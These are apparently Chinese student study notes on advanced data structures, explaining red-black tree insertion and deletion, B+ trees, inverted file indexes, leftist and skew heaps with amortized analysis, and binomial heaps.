红黑树在插入后，平衡的性质可能会被破坏，需要进行调整。新插入的结点应当涂为红色，否则每一次插入都会破坏性质 5，而插入红节点则有可能不对上面要求的性质进行破坏，这显然更好。
下面来逐一讨论各种情况，假设新插入的结点为 \(X\)，父结点为 \(P\)，祖父结点 \(G\)，叔结点(即父节点的兄弟)为 \(U\)。
插入在黑结点下或插入空树¶
显然的，直接插入到黑结点下并不会对任何性质造成破坏，因此这种情况下不需要进行任何调整。
而插入到一个空树后，我们只需要把这个结点染成黑色即可，因为此时只需要保证根结点为黑色就足够了。
父结点为红色¶
下面的讨论中默认 \(X\) 插入在 \(G\) 的左子树中，右子树的情况只需要对称处理即可。
- 情况1：叔结点为红色（红叔叔）
无论 \(X\) 是 \(P\) 的左孩子还是右孩子，都属于这种情况。
吴一航学长的ADS讲义
需要注意的是，这里所有结点都带子树，一方面至少有 NIL 结点，另一方面这可以不仅仅表示刚刚插入的情况，也可以表示经过几次调整后还在被这种情况困扰，因此更具一般性。

我们的想法是把红色甩掉，但 \(X\) 的父亲和叔叔都是红色的，没办法解决它的问题，只能求助于祖父结点。
我们的方案是把 \(X\) 的父亲和叔叔染成黑色，祖父染成红色，这样一来从祖父开始的子树的黑高保持不变，不影响关于黑高的性质。但是这样并不代表问题已经解决了，因为祖父结点的父结点也同样可能是红色的，只不过这时候我们可以把祖父结点当成新插入的结点，然后递归地把问题向上传递，直到根结点。
当然向上传递的过程中可能不止遇见情况 1，还可能遇见情况 2 和情况 3，这时候我们需要继续调整，直到所有问题都得到解决
- 情况2：\(X\) 的叔叔是黑色的，且 \(X\) 是右孩子（离叔叔较近）
- 情况3：\(X\) 的叔叔是黑色的，且 \(X\) 是左孩子（离叔叔较远）

如图所示，情况 2 经过 \(X\) 和 \(P\) 的一次 rotation 之后就变成了情况3，情况三再进行一次 rotation 之后问题就成功解决了。
这里旋转的方法与 AVL 树的旋转方法是一样的，我们把红色视为 trouble，进而决定要要 LR 还是 LL 旋转。
Tip
前面已经提到过，对于 \(X\) 插入在右子树的情况，只需要对称处理即可，即把 LR 换成 RL，LL 换成 RR 即可。
吴一航学长的ADS讲义

即如果插入后直接落入情况三，只需要一次旋转染色即可解决，直接落入情况二，一次旋转进入情况三，再一次旋转染色即可解决。但如果落入情况一，一次调整后可能还在情况一，可能直到最后都是通过情况一加上染黑根结点解决，也可能几次调整后进入情况二或三后解决。
根据这一流程我们知道，红黑树插入最多可能的旋转次数为 2（因为只有情况 2 和 3 会要旋转，进入情况 2 后 1 次旋转必定进入情况 3，进入情况 3 后 1 次旋转必定解决），然后更改颜色最多是 \(O(\log n)\) 次，因为进入情况 2 或 3 只需要一次染色，在情况 1 最差也是每两层染一次色。
而我们已经证明红黑树的最大高度是 \(O(\log n)\) 的。因此插入操作包括 \(O(\log n)\) 的搜索时间，加常数的旋转，加 \(O(\log n)\) 的染色，因此还是 \(O(\log n)\) 的时间复杂度
综上我们可以得到结论：一棵有 \(n\) 个内部结点的红黑树插入一个结点的时间复杂度为 \(O(\log n)\)
Question
考虑从空树开始连续插入 \(n(n>1)\) 个结点得到一棵红黑树（每一步插入都要保证红黑树性质），试问这棵树一定会有红色结点吗？若是，请给出清晰的证明；若不是，请举出反例。
答案是一定会有红色节点。采用数学归纳法证明：
- 当平凡情况\(n=2\)时，根结点下插入的结点一定是红色，且不需要调整颜色
- 对于之后的情况，假如新插入红色结点后不需要调整颜色，那么显然会有红色结点；假如需要调整，回顾三种情况的讨论，发现无论哪种情况，红黑树在调整后一定会保留下红色结点。
红黑树的删除¶
首先回忆普通二叉树的删除操作，主要有以下三种情况
- 如果 \(X\) 是叶子结点，直接删除即可
- 如果 \(X\) 只有一个孩子，直接用孩子替代 \(X\)
- 如果 \(X\) 有两个孩子，找到 \(X\) 的中序后继 \(Y\)，把 \(Y\) 的值赋给 \(X\)，然后删除 \(Y\)，这里的 \(Y\) 是左子树中最大的结点或者右子树中最小的结点
观察可以发现第三种情况可以通过一步交换转化为第一种或第二种情况，因此我们只需要讨论第一种和第二种情况即可。需要注意的是，在红黑树中交换时只交换键值不交换颜色，否则可能会破坏红黑树的性质 5。
红黑树删除的平凡情况¶
在第一种情况中，接替被删除结点所在位置的结点是 NIL，第二种情况则是被删除结点的子结点。
假如被删除结点是红色的，那么直接删除即可，不会对红黑树的性质造成破坏；假如被删除的是黑色结点，如果接替上来的结点是红色的，直接把它染黑也不会破坏任何性质。
但是如果被删除的是黑色结点，并且接替上来的是 NIL 或是黑色结点，那么就需要进行细致的讨论和调整。
红黑树删除的复杂情况¶
这里我们采用一个巧妙的办法，我们直接给接替上来的黑色结点或者 NIL(实际上也是黑色结点)再加一重黑色，使它的颜色变成“双黑”，这时候它一个结点就可以提供两个黑高，所以性质 5 并没有被破坏。
但是这里出现了非红非黑的结点，性质 1 被破坏了，我们就需要把这个多余的黑色传递给一个红色结点，或者直接向上传递到根结点（如果根结点是双黑的，直接把它变回黑色即可，因为根结点是什么颜色实际上并不影响红黑树的其他性质）于是这样就成功解决了问题。
我们可以把传递双黑的过程分为四类，用子树表示更一般的情况，\(X\) 是需要处理的结点，黑结点旁的加号表示双黑，蓝色结点表示此时这个结点的颜色并不重要。同样的，这里只讨论了 \(X\) 是父结点的左孩子的情况，右孩子的情况只需要对称处理即可。
- 情况1：\(X\)的兄弟是红色的

由于兄弟结点是红色的，那么父结点就一定是黑色的。我们的想法很简单，兄弟是红色的，就让兄弟来替我们解决这个难题，于是就把兄弟转上去染成黑色；这时候为了红黑树的性质，只能把父亲染红，双黑仍然在\(X\)上。
这么做虽然没有解决问题，但成功地把情况 1 转换成了情况 2、3、4 之中的一个。注意到现在 \(X\) 的兄弟一定是黑色的，因为这个兄弟是原先兄弟 \(S\) 的孩子。
- 情况2：\(X\)的兄弟是黑色的，且兄弟的两个孩子都是黑色的

这时候发现兄弟帮不了自己了，两个侄子都是黑色的也帮不上忙，那就只能把问题推给父结点。
我们把 \(X\) 的双黑变回黑色，兄弟从黑色变成红色，并且给父结点多加一层黑色
- 如果父亲是红色，就直接染黑，这时候问题就解决了
- 如果父亲是黑色，就把它变成双黑，把问题向上传递
简单来说，\(X\) 和兄弟减少一层黑色，父结点多加一层黑色，这样一来这以父结点为根的树的黑高也并没有发生变化，就维护了整棵红黑树的性质 5。
Tip
如果情况 2 是由情况 1 转换而来，那么这时候父结点一定是红色的，直接把它染黑就成功解决了问题
- 情况3：\(X\)的兄弟是黑色的，且近侄子是红色的，远侄子是黑色的
Tip
这里根据与 \(X\) 的距离划分远、近侄子，这样一来在对称的情况中就不容易混淆。

这里我们借用 AVL 树的思想，红侄子在父亲 \(P\) 的 RL 位置，把红侄子与兄弟 \(S\) 进行 single rotation 并交换颜色，就变成了情况 4，也即红色在父亲 \(P\) 的 RR 位置。
- 情况4：\(X\)的兄弟是黑色的，且远侄子是红色的，近侄子的颜色任意

这一种情况对应 AVL 树的 RR，我们只需要对父亲 \(P\) 进行一次左旋（即 \(P\) 与 \(S\) 旋转），然后让 \(S\) 和 \(P\) 交换颜色，并且把 \(X\) 多余的黑色丢给远侄子，这样一来就成功解决了问题。
可能有些不直观，但是仔细思考可以发现，在旋转前黑色的 \(S\) 对应 \(X\) 多出来的一个黑高，所以 \(N_1\) 和 \(N_2\) 为根结点的子树的黑高与 \(X\) 为根结点的子树的黑高是一样的（假如把 \(X\) 变回单层的黑色的话），这样一来就可以很明确的看出旋转后 \(S\) 的两棵子树黑高相同（因为此时 \(N_2\) 的黑高加 1 了），这样就成功保持了性质 5，说明问题成功解决。
吴一航学长的ADS讲义

首先我们最多用 \(O(\log n)\) 的时间找到删除结点， 最多 1 次交换和 1 个删除的操作。接下来如果删除后没有问题则到此结束。
否则根据分析，情况 1、3 和 4 在问题解决前最多进行一次，因为情况 4 可以直接解决，情况 3 直接进入 4 然后解决，情况 1 如果进入情况 3 和 4 也可以马上解决，进入情况 2 后也因为父结点是红色可以马上解决。因此关键在于情况 2 可能出现很多次，但最多也只是树高 \(O(\log n)\) 次，因为每次都会把问题上推 1 层。
总而言之，因为情况 1、3 和 4 在问题解决前最多出现一次，所以最多 3 次旋转加上 \(O(\log n)\) 次颜色调整就可以解决问题
于是我们就可以得到结论：一棵有 \(n\) 个内部结点的红黑树删除一个结点的时间复杂度为 \(O(\log n)\)
Question
考虑将一个结点 \(X\) 插入红黑树 \(T_0\)，得到红黑树 \(T_1\)，然后紧接着下一步操作又立刻将 \(X\) 从 \(T_1\) 删除得到 \(T_2\)，请问 \(T_0\) 和 \(T_2\) 是否一定一样？若是，请给出清晰的证明；若不是，请举出反例。
显然不是，只需要考虑以下情况即可

B+树¶
B+树的定义¶
B+树的定义
B+ 树满足以下性质：
- B+ 树的根要么是叶结点，要么拥有 2 到 \(M\) 个孩子。
- 除根结点外，每个非叶结点有 \(\lceil M/2 \rceil\) 到 \(M\) 个孩子。
- 所有叶结点都在同一层。
B+ 树的主要构造思路是减小树的深度，因此它放弃了我们常用的二叉树而选择了多叉树，这样一来在检索时就可以有效减少与中间结点比较键值的操作数量，在某些情况下可以大大加快搜索的效率。
B+ 树将数据存储在叶结点上，非叶结点只存储这些数据的索引（即键值），这样在搜索时就可以通过比较键值来确定要去左孩子还是右孩子中寻找所需的数据。而 B+ 树的叶结点之间通过指针相连，这样可以方便地进行范围查询。
\(M\) 被称为 B+ 树的 order，我们常见的 B+ 树有 \(M=3\) 与 \(M=4\) 两种，也称 2-3 树和 2-3-4 树，这里的数字表示每一个结点可能拥有的子树数量，或者叶节点中可以储存的数据数量

B+树的操作¶
搜索¶
根据B+树的定义，我们需要在非叶结点层逐层和非叶结点储存的键值进行比较，从而确定要去向哪一个子树寻找。 这里的时间复杂度与树的高度和每一层搜索需要的时间有关。
显然最大高度是 \(O(\log_{\lceil M/2 \rceil} N)\)
又因为每一层的键值都可以用二分法来查找，复杂度为 \(O(\log_2 M)\)
将层数乘上每一层的查找次数，我们有
因此综合得到的时间复杂度为 $$ O(\log_2 M \cdot \log_{\lceil M/2 \rceil} N) = O(\log N) $$
插入¶
插入的思路比较明确，首先寻找到要插入的位置，插入后如果发现此时叶结点储存的数据太多了，就从 \(M+1\) 个数据分裂成 \(\lceil (M+1)/2 \rceil\) 和 $ \lfloor (M+1)/2 \rfloor $ 两个叶结点。
需要注意的是，如果某一个叶结点插入后爆满了，并且发现相邻的叶结点还有空位，这时候可以把一个数据分给相邻叶结点。并且要强调的是，这时候叶结点并没有分裂，但是上层的结点所储存的数据也需要更新。
PTA 上有的题目似乎不认为爆满之后应该分给相邻结点，而是应该直接分裂
树有 \(O(\log_{\lceil M/2 \rceil} N)\) 层，每一层操作至多是 \(O(M)\)，因此整体时间复杂度是 $$ O(M \cdot \log_{\lceil M/2 \rceil} N) = O(\dfrac{M}{\log M} \log N) $$
伪代码如下
删除¶
删除的思路实际上只需要把插入的分裂结点改为合并结点，当然假如相邻叶结点的键值足够的话，可以直接从相邻叶结点那里取一个键值过来，从而减少合并的次数，但也要注意上层结点的更新。
Tip
如果需要和相邻叶结点合并，并且合并得到的新叶结点的键值数目大于 \(M\)，那么实际上我们还需要把新叶结点分裂，最终的效果和直接从相邻叶结点直接取来一个键值是一样的。
因此在删除操作中，我们通常会选择直接从相邻叶结点取来一个键值，而非无脑合并，这是要和插入操作区分开来的。
删除操作的时间复杂度也为 $$ O(M \cdot \log_{\lceil M/2 \rceil} N) = O(\dfrac{M}{\log M} \log N) $$
倒排文件索引¶
约 1066 个字 25 行代码 6 张图片 预计阅读时间 5 分钟
倒排文件是一种数据结构，用于存储某一个特定词汇在文本中出现的所有位置的索引（如页码数、行号或是用某种方式记录的文本具体位置等），是信息检索系统中最常用的数据结构之一。
- 基本思想：对于文本中的每一个词汇，记录该词汇在文本中出现的所有位置。
- 主要优点：可以快速定位到文本中的某一个词汇，从而快速检索到包含该词汇的文本。

在上图中，除了储存文件的索引之外，还储存了这些单词出现的频率。这是因为一般而言，一个单词在整一个数据库中出现的频率越低，它的检索价值就越高，对这些词汇进行检索就更容易找到相关的资料；而有一些词汇在所有文本中出现的频率都很高，如“the”、“a”等包括介词、代词在内的常用词汇，这些词汇对于检索来说并没有太大的价值，因为几乎所有文本都会带有这些词汇，检索它们并不能帮助我们找到我们想要的资料，我们将这些词称为 Stop Words（停用词）。
构建一个倒排文件索引¶
在构建时，需要考虑一些问题：
- Word Stemming：词汇变形问题，如单词的时态、单复数、大小写等问题，需要将这些变形的词汇都映射到同一个词汇上。如 “run”、“Run”、“running”、“ran” 等都应映射到 “run” 上，不应单独储存。
- Stop Words：停用词问题，如 “the”、“a”、“it” 等常用词汇，不应储存。
-
检索方式：
- 搜索树：检索速度较慢，但是支持模糊查询（范围查询）。
- 哈希表：检索速度较快，但是不支持模糊查询，并且需要考虑哈希冲突的问题。
-
内存管理：当需要储存的数据量非常大，一个硬盘都装不下时，就需要把数据分别装在不同的硬盘上
- Distributed indexing：将倒排索引分布到多个服务器上，每个服务器按照文件内容或文件编号等形式分类，分别负责一部分索引

- Dynamic indexing：假如在每一次文件增删之后立刻就更新索引库，这样的开销是相当大的，因此可以建立一个辅助索引库，对于索引的更改先暂存在辅助索引库中，搜索时同时使用主索引库和辅助索引库，当满足一定条件时（每隔一定时间、辅助索引库大小达到一定程度等），再将辅助索引库中的内容合并到主索引库中去。（类似于 cache 的思想）

- Compression：在储存时将 stop words 去掉，并且储存每个单词的长度而非该单词首字母出现的位置。这样就可以减少索引的大小，提高检索速度。

-
Thresholding（阈值）：
-
文档阈值：
- 将所有文档按照权重排列，仅返回排名最高的前 x 个文档。
- 不适用于布尔查询，因为布尔查询通常需要返回所有文档。
- 缺点在于可能因为截断忽略一些相关的文档，如重要文档的数量不止 x 个。
-
查询阈值：
- 将查询词按照出现的频率升序排列
- 仅根据原始查询词中的某个百分比进行搜索，如在下图中按 20%、40%、80% 的比例搜索查询词

-
如何衡量一个搜索引擎¶
对于用户而言，一个搜索引擎的性能衡量指标主要有两个：准确率 与 召回率。
- 准确率：检索到的与目标相关的文档 与 检索到的所有文档的比值 Perscision = $ \dfrac{R_R}{R_R + I_R} $
- 召回率：检索到的相关文档 与 数据库中所有相关文档的比值。 Recall = $ \dfrac{R_R}{R_R + R_N} $

通常而言准确率越高，召回率就越低；反之，召回率越高，准确率就越低，在设计系统时通常要对两者进行 trade off。
左倾堆与斜堆¶
约 3337 个字 84 行代码 3 张图片 预计阅读时间 14 分钟
对于一般的堆的各种基本操作的分析，在这里不再强调，但我们希望对于堆的合并操作，我们能得到更好的表现，把\(O(n)\)的时间复杂度改进到\(O(\log n)\)，这就是我们定义左倾堆以及斜堆的思想来源。
左倾堆¶
左倾堆的定义与性质¶
NPL
我们把任一结点 \(X\) 的零路径长（Null Path Length, \(NPL\)），\(NPL(X)\) 定义为从 \(X\) 到一个没有两个儿子的结点的最短路径的长。因此，具有 0 个或 1 个儿子的结点的 NPL 为 0，且规定 \(NPL(\text{NULL}) = -1\)。
根据这一定义，我们知道对于任意结点 \(X\)， $$ NPL(X) = 1 + min \{ NPL(left), NPL(right) \} $$
左倾堆 Leftist Heap
- 左倾堆的序性质与一般的二叉堆相同(最小堆或最大堆)
-
左倾堆的结构性质：
- 对于任意结点\(X\)，其左儿子的 NPL 不小于右儿子的 NPL，即 \(NPL(left) \geqslant NPL(right)\)
- 这一定义也适用于没有两个孩子的结点，因为根据定义有 \(NPL(\text{NULL}) = -1\)
根据左倾堆的定义，我们可以得到左倾堆的一个性质
左倾堆的性质
在右路径上有 \(r\) 个结点的左倾堆必然至少有 \(2^r−1\) 个结点（右路径指从根结点出发一路找右孩子直到找到叶子的路径）。
进而我们也可以推导出：有 \(n\) 个结点的左倾堆的右路径上至多有 \(\lfloor \log(n+1) \rfloor\) 个结点，也可以粗略地记为至多 \(O(\log n)\) 个结点。
可以使用数学归纳法证明。
- 若 \(r=1\)，则显然至少存在 1 个结点。
-
设此结论对右路径上有小于等于 \(r\) 个结点的情况都成立，现在考虑在右路径上有 \(r+1\) 个结点的左倾堆。
此时根的右子树恰好在右路径上有 \(r\) 个结点，因此由归纳假设，右子树的大小至少为 \(2^r−1\)。而根据左倾堆的定义，左子树的 NPL 必须大于等于 \(r-1\)，即左子树的右路径上至少有 \(r\) 个结点，因此左子树的大小也至少为 \(2^r−1\)。因此整个左倾堆的大小至少为 \(1 + (2^r−1) + (2^r−1) = 2^{r+1} − 1\)。
左倾堆的操作与实现¶
我们主要解决三个核心操作：Insert、DeleteMin、Merge，其他的操作与二叉堆差别不大或者没有必要。
- Merge：最核心的操作，事实上是接下来两种操作的基础。
- Insert：可以视为一个堆和一个单结点堆的 Merge，因此问题转化为 Merge。
- DeleteMin：两个步骤实现：首先删除根结点，然后只需要将根结点的两个子树 Merge 即可，此关键问题还是 Merge。
于是我们发现这三种操作最终都归结于 Merge，时间复杂度也完全取决于 Merge，因此接下来只对 Merge 进行讨论。
对于 Merge 我们有递归和迭代两种版本的实现
递归实现¶

这里将 Merge 分为两个函数主要是为了模块化处理，避免将H1于H2因大小不同而交换的操作写在一个函数中
合并为一个函数的写法
其主要步骤位为：
- 如果两个堆中至少有一个是空的，那么直接返回另一个即可；
- 如果两个堆都非空，我们比较两个堆的根结点
key的大小，key小的是H1，key大的是H2； - 如果
H1只有一个顶点（根据左倾堆的定义，只要它没有左孩子就一定是单点），直接把H2放在H1的左子树就完成任务了（很容易验证这样得到的结构符合左倾堆性质，此时 NPL 也没有变化）； - 如果
H1不只有一个顶点，则将H1的右子树和H2合并（这是递归的体现，在 base case 设计良好，其它步骤也都合理的情况下你完全可以相信这一步递归帮你做对了），成为H1的新右子树； - 如果
H1的 NPL 性质被违反，则交换它的两个子树； - 更新
H1的 NPL，结束任务。
Tip
这里有两个问题需要注意：
- 一定要及时更新 NPL，否则所有结点的 NPL 都是初始值 0
-
这一算法的复杂度如何？
我们可以发现这一递归程序的递归深度不会超过两个左倾堆的右路径的长度之和，不妨设
H1的大小为 \(N_1\)，H2的大小为 \(N_2\)，两者路径长度之和为 $$ O(\log N_1 + \log N_2) = O(\log N_1 N_2) = O(\log \sqrt{N_1 N_2}) = O(\log (N_1 + N_2)) $$这里的推导使用到了基本不等式 $ a + b \geqslant 2\sqrt{ab} $。总而言之，两个堆右路径长度之和是两个堆大小之和的对数级别，因此递归层数是 \(O(\log n)\) 的。
事实上每一层的操作都是常数的，因为需要进行的操作只有判断、交换子树、接上新的指针，以及更新 NPL，因此总的时间复杂度也是 \(O(\log n)\) 的
迭代实现¶

事实上，上面递归过程的展开实际上就等价于迭代算法的流程：每一次递归向下对应迭代中保留根结点更小的堆的左子树（就像是左子树保持不动，右子树就是接下来合并的结果），直到最后一次与 NULL 合并直接接上。
递归返回过程实际上就是逐个检查新的右路径上的结点是否有违反 NPL 性质的，并且更新 NPL；其它结点无需关心，因为在 merge 过程中它们根本就不受影响。
因为我们已经说明了迭代和递归的每一步都是有对应关系的，只不过递归是最后返回时才接上每个结点的右子树，而迭代在每一步的操作中就已经把前面的树连接好了，因此二者时间复杂度一样是 \(O(\log n)\)。
Note
我们在完成上面的流程后会观察到，在递归向下之后，或者说在交换孩子从而调整左倾堆性质之前，合并得到的堆的右路径是原来两个堆的右路径按键值大小排序合并的结果。因为我们每次都在比较两个堆的右路径上两个点的大小，然后把小的作为根，把大的插入到小的上面。
发现这一规律之后，我们做题会更快捷一些，因为只需要把两条右路径从小到大排序，然后从小到大依次带着左子树连接，构成得到新的右路径即可（但要注意在此之后还可能需要交换左右子树调整使得满足左倾堆结构性质）。
总的来说，我们用代码实现迭代版本也并没有想象中复杂，只需要对两个堆右路径从小到大遍历操作，然后再从右路径最后一个点返回根结点，在返回的过程中不断更新 NPL 并检查结构性质即可。
斜堆¶
斜堆的定义和性质¶
斜堆与左倾堆的关系类似于 splay 树与 AVL 树的关系，就像 splay 树不再需要维护 AVL 树的 bf 属性，斜堆也不再需要维护左倾堆的 NPL 属性，而是直接通过交换左右子树来维护堆的性质，具体操作如下：
- base case：处理 H 与 NULL 连接的情况，左倾堆直接返回 H 即可，但斜堆必须要观察 H 的右路径，我们要求 H 的右路径上除了最大结点之外都必须交换其左右孩子
-
非 base case：若 H1 的根结点小于 H2，如果是左式堆，我们需要合并 H1 的右子树和 H2，将合并的结果作为 H1 的新右子树，然后再判断这样是否违反性质，是否需要交换左右孩子。
而斜堆每一次合并之后不管什么情况都要进行一次交换，也就是说每次这种情况都先把 H1 的左孩子换到右孩子的位置，然后把新合并的插入在 H1 的左子树上。

注意！
在做题时一定要以上面（PPT）中给出的方法为准，在维基百科等资料中斜堆在 base case 无需任何操作，但事实上如果按照 PPT 所说的，这之后还有可能有操作，作业和考试都应该按照这里和 PPT 上说的为准。
类似于左式堆，我们发现最后合并出的堆的左路径上，将包含两个原始堆的右路径结点排序后得到的结果，左路径的最末尾可能还连着原始堆右路径最大值的一些左孩子（因为这些左孩子是不被交换的）。
斜堆的摊还分析¶
斜堆具有像splay 树一样的 \(O(\log n)\) 的摊还操作代价，“Any M consecutive operations take at most \(O(M\log N)\) time”
因为对于斜堆来说，insert 和 deletemin 还是以 merge 为核心，因此我们只需要分析 merge 即可。
下面我们使用势函数法进行摊还分析，为了定义势函数我们还需要一些辅助的定义
重结点与轻结点
我们称一个结点 \(P\) 是重的（heavy），如果它的右子树结点个数至少是 \(P\) 的所有后代的一半（后代包括 \(P\) 自身）。反之称为轻结点（light node）。
此外我们还需要一个引理
Lemma
对于右路径上有 \(l\) 个轻结点的斜堆，整个斜堆至少有 \(2^l-1\) 个结点，这意味着一个 \(n\) 个结点的斜堆右路径上的轻结点个数为 \(O(\log n)\)。
我们可以用数学归纳法来证明。对于 \(l=1\) 的情况显然成立，现在设右路径轻结点个数小于等于 \(l\) 时，斜堆至少有 \(2^l-1\) 个结点的结论都成立。
现在考虑右路径有 \(l+1\) 个轻结点的情况，设右路径第一个轻结点为 \(P\)，根据轻结点的定义，它的左子树要大于等于右子树。而 \(P\) 的右子树的右路径上有 \(l\) 个轻结点，因此 \(P\) 的右子树大小至少为 \(2^l-1\)，又因为 \(P\) 的左子树结点数要大于等于右子树结点数，因此 \(P\) 为根的树至少有 \(1 + (2^l-1) + (2^l-1) = 2^{l+1}-1\) 个结点，从而整个堆至少有 \(2^{l+1}-1\) 个结点。
最终我们要通过摊还分析得到的定理如下：
定理
若我们有两个斜堆 \(H_1\) 和 \(H_2\)，它们分别有 \(n_1\) 和 \(n_2\) 个结点，则合并 \(H_1\) 和 \(H_2\) 的摊还时间复杂度为 \(O(\log n)\)，其中 \(n=n_1+n_2\)。
Proof
我们定义势函数 \(\Phi(H_i)\) 等于堆 \(H_i\) 的重结点（heavy node）的个数，并令 \(H_3\) 为合并后的新堆.我们设 \(H_i(i=1,2)\) 的右路径上的轻结点数量为 \(l_i\)，重结点数量为 \(h_i\)，因此真实的合并操作最坏的时间复杂度为 $$ c_i=l_1+l_2+h_1+h_2 $$ 因为这里所有的操作都在右路径上完成。因此根据摊还分析我们知道摊还时间复杂度为 $$ \hat{c_i} = c_i + \Phi(H_3) - (\Phi(H_1) + \Phi(H_2)) $$
事实上，在 merge 前我们可以记 $$ \Phi(H_1) + \Phi(H_2) = h_1 + h_2 + h $$ 其中 \(h\) 表示不在堆的右路径上的重结点个数。
现在我们要考察合并后的情况，事实上我们可以观察到非常重要的两点:
- 只有在 \(H_1\) 和 \(H_2\) 右路径上的结点才可能改变轻重状态。这是很显然的，因为其它结点合并前后子树是完全被复制的，所以不可能改变轻重状态。
- \(H_1\) 和 \(H_2\) 右路径上的重结点在合并后一定会变成轻结点，这是因为右路径上结点一定会交换左右子树，并且后续所有结点也都会继续插入在左子树上（这也表明轻结点不一定变为重结点）。
结合以上两点，我们知道合并后原本不在右路径上的 \(h\) 个重结点仍然是重结点，在右路径上的 \(h_1 + h_2\) 个重结点全部变成轻结点，\(l_1 + l_2\) 个轻结点不一定都变重，因此合并后我们有 $$ \Phi(H_3) \leqslant l_1 + l_2 + h $$ 带入数据计算可得 $$ \hat{c_i} \leqslant (l_1+l_2+h_1+h_2) + (l_1+l_2+h) - (h_1+h_2+h) = 2(l_1+l_2) $$
根据前面的引理，\(l_1+l_2 = O(\log n_1+\log n_2) = O(\log (n_1+n_2)) = O(\log n)\)。并且注意到初始（空堆）势函数一定为 0，且之后总是非负的，所以这一势函数定义满足要求，因此我们的证明也就完成了。
二项堆¶
约 2630 个字 101 行代码 3 张图片 预计阅读时间 12 分钟
二项堆的定义与性质¶
对于一般的二叉堆，我们知道其插入和删除操作的时间复杂度为 \(O(\log n)\)，而从空堆开始，构造一个含有 \(n\) 个元素的二叉堆的时间复杂度可以做到 \(O(n)\)（要注意此时并不是直接从零开始插入 \(n\) 个元素，可以回顾 FDS 的内容）。
很遗憾的是先前讨论的左倾堆与斜堆虽然保证了 merge 的时间复杂度是 \(O(\log n)\)，却不能在 \(O(n)\) 时间内实现 \(n\) 个结点的插入建堆操作，二项堆的思想就源自于此。
二项堆的定义
-
结构性质：
- 二项堆不再是一棵树，而是多棵树构成的森林（一些树构成的集合），其中每一棵树都称为二项树
- 一个二项堆中的每棵二项树都具有不同的高度，即每一个高度最多对应一棵二项树
- 高度为 \(0\) 的二项树 \(B_0\) 是一个单节点树；高度为 \(k\) 的二项树 \(B_k\) 由一棵高度为 \(k-1\) 的二项树 \(B_{k-1}\) 附加到另一棵二项树 \(B_{k-1}\) 的根上而构成
-
堆序性质：
- 二项堆中的每棵二项树都满足堆序性质（最小堆或最大堆）
观察可以发现
- 一棵二项树 \(B_k\) 实际上就是一个树根结点连接着 \(k\) 棵二项树 \(B_0, B_1, \cdots, B_{k-1}\) 构成的
- 高度为 \(k\) 的二项树恰好有 \(2^k\) 个结点
- 深度为 \(d\) 的节点数为二项系数 \(\binom{k}{d}\)
对第三点性质的数学归纳法证明
- 对于 \(k=0\) 的情况，上述结论显然成立
-
假设直到 \(k\) 的情况结论都是成立的，则对于 \(B_{k+1}\)，第一层和最后一层显然只有一个结点，对于其他层，由于 \(B_{k+1}\) 是由两个 \(B_k\) 拼接得到的， \(B_{k+1}\) 在第 \(i\) 层的结点数以下两部分组成：
- 一棵 \(B_k\) 的第 \(i\) 层，有\(\binom{k}{i}\) 个结点
- 另一棵 \(B_k\) 的第 \(i-1\) 层，有\(\binom{k}{i-1}\) 个结点
因此由归纳假设 \(B_{k+1}\) 的第 \(i\) 层有 \(\binom{k}{i} + \binom{k}{i-1} = \binom{k+1}{i}\) 个结点，命题得证
从上面的证明我们可以很自然地看出二项堆与二项树这个名字的由来。
我们也可以把二项堆与二进制表示结合起来。例如含有 \(13 = 1101_2\) 个结点的二项堆由三棵二项树 \(B_3, B_2, B_0\) 组成，二进制表示中1的个数就是这个二项堆中二项树的棵数。
二项堆的操作¶
FindMin¶
直接遍历所有二项树的根结点即可，注意到对于有 \(n\) 个结点的二项堆，至多有 \(\log n\) 棵二项树，因此时间复杂度为 \(O(\log n)\).
我们也可以专门记录最小的根结点来实现 \(O(1)\) 的时间复杂度，只不过在 DeleteMin 的时候需要重新找到最小的根结点并更新。
Insert & Merge¶
插入是合并的一种特殊情况，只需将新插入的结点视作一个单节点的二项堆，因此我们只需要分析合并即可。
二项堆的合并可以与二进制数表示相结合，例如一个有 \(B_3, B_2, B_0\) 的二项堆与有 \(B_3, B_1, B_0\) 的二项堆合并，我们只需要类比二进制加法 \(1101_2 + 1011_2 = 11000_2\)，就可以很自然的发现最终得到的二项堆是 \(B_4, B_3\)。
时间复杂度的分析也很简单，在保证堆的存储顺序是按高度从小到大排列的前提下，时间复杂度为 \(O(\log n)\)
Note
进行插入操作时，如果不存在的二项树中最小的是 \(B_i\)，那么我们至多需要进行 \(i+1\) 次将两棵树合并的操作（类比于二进制加法的进位就可以很容易看出）。
DeleteMin¶

- 先用 \(O(\log n)\) 的时间找到根的最小值 Min（也可能是 \(O(1)\) 的时间，但这意味着所有操作结束后还需要更新最小值）
-
接着我们可以得到两个二项堆
- 其一是原二项堆移除 Min 所在的树后剩下的堆
- 其二是 Min 所在的树移除根结点（移除 Min）后得到的堆
-
将这两个二项堆合并即可
最终所需的时间复杂度显然是 \(O(\log n)\) 的。
从空堆开始建堆的摊还分析¶
对于从空开始插入建堆的时间复杂度我们需要做特殊的分析。因为我们是要求出平均时间的最坏情况，事实上也就是摊还代价，这里提供聚合法以及势能法两种摊还分析方法。
Note
聚合法需要每一步的操作复杂度，实际上我们随便模拟几步再结合之前讨论的合并和二进制加法之间的关系就可以发现，插入的整个操作与二进制数加1有完全的对应关系：
- 若遇到某一位是 1+1，则用常数操作完成简单的合并即可
- 若遇到某一位是 0+1，那么最终当前位的二项树就是 “1” 对应的那个二项树
基于这一观察我们可以发现 0+1 对应将 0 置 1，1+1 对应 1 置 0，这两种情况都对应于堆的常数时间操作，因此从空树连续插入 \(n\) 个顶点的时间复杂度与 0+1+1···（n个1）的过程中数据二进制表示中 0 和 1 比特翻转的次数总和相对应。
为我们知道 \(n\) 对应于 \(\lfloor \log n \rfloor + 1\) 个二进制位，事实上最低位每次加 1 都会反转比特，次低位每两次运算反转比特，倒数第三位每 4 次运算反转比特...... 以此类推， \(n\) 次操作的整体时间复杂度与 $$ n + \dfrac{n}{2} + \dfrac{n}{4} + \cdots + \dfrac{n}{2^{\lfloor \log n \rfloor + 1}} $$ 成正比，根据等比数列求和可知上述求和是小于 \(2n\) 的（取 \(n \to \infty\) 才能到 \(2n\)）.
因此插入 \(n\) 个结点的摊还时间复杂度是 \(O(n)\) 的，那么平均每步操作的时间复杂度是 \(O(1)\)。
同样考虑二进制加法问题，我们发现复杂度很大的操作都对应于很多的复位（1 变 0）和一个置位（0 变 1），因此我们直接设势能函数 \(\Phi\) 为二进制表示中 1 的个数（即二项堆中树的个数）。
